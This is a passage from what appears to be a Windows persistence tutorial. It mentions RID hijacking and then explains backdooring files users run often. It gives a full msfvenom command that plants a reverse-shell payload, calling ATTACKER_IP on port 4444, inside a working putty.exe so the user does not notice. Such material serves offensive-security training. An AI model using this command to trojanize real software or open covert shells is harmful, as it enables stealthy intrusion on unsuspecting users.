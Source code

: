 ![image](/img/WindowsLocalPersistence/2.png)

The next time user3 logs in, LSASS will associate it with the same RID as Administrator and grant them the same privileges.

---

## 2. Backdooring Files

This phase consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

### 2.1 Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```Command Prompt
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.
